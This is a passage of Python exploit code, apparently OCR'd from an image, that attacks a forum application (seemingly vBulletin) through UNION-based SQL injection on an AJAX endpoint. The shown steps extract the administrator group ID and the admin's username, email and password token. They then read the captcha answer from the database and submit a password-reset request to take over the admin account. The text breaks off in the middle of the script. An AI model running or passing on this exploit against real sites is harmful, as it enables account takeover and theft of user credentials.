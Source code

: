         ## Get usergroup ID for "Administrators"
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,usergroupid,8,7,6,5,4,3,2,1 from ' + sPrefix + 'usergroup WHERE title=\'Administrators\';--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        sGroupID = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','')
        #print('[+] Administrators Group ID: '+sGroupID)
        
        ## Get admin data, including original token (password hash), TODO: an advanced exploit could restore the original hash in post exploitation
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,concat(username,0x7c,userid,0x7c,email,0x7c,token),8,7,6,5,4,3,2,1 from ' + sPrefix + 'user where usergroupid=' + sGroupID + ';--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        sUsername,sUserid,sUsermail,sUserTokenOrg = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','').split('|')
        #print('[+] Got original token (' + sUsername + ', ' + sUsermail + '): ' + sUserTokenOrg)

        ## Let's create a Human Verify Captcha
        sPath = 'ajax/api/hv/generateToken?'
        lData = {'securitytoken':'guest'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'hash' in sResponse: sHash = sResponse.split('hash')[1].split(':')[1].replace('}','').replace('"','')
        else: sHash = ''

        ## Get the captcha answer from DB
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        lData = {'nodeId[nodeid]':'1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,count(answer),8,7,6,5,4,3,2,1 from ' + sPrefix + 'humanverify limit 0,1--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: iAnswers = int(sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"',''))
        else: iAnswers = 1

        lData = {'nodeId[nodeid]':'1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,answer,8,7,6,5,4,3,2,1 from ' + sPrefix + 'humanverify limit ' + str(iAnswers-1) + ',1--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: sAnswer = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','')
        else: sAnswer = ''

        ## Now request PW reset and retrieve the token
        sPath = 'auth/lostpw'
        lData = {'email':sUsermail,'humanverify[input]':sAnswer,'humanverify[hash]':sHash,'securitytoken':'guest'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        